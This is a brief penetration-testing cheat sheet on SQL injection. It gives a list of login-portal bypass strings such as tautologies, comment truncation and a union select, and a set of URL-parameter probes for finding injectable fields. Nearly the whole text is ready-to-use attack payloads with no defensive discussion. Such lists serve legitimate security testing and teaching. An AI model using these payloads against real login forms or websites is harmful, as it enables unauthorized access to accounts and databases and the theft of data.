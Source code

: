 # SQL Injection (SQLi)

## Quick-Hitters

### Login Portals

{% code overflow="wrap" %}
```
admin' or '1'='1
" or ""="
' or 1=1 -- -
' union select 1,2,3 -- -
admin'-- -
' or "-'
" or ""-"
" or true--
' or true--
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or 1=1 or "='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
```
{% endcode %}

### URL Parameters

For `https://site.com/?q=HERE`

{% code overflow="wrap" %}
```
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```
{% endcode %}
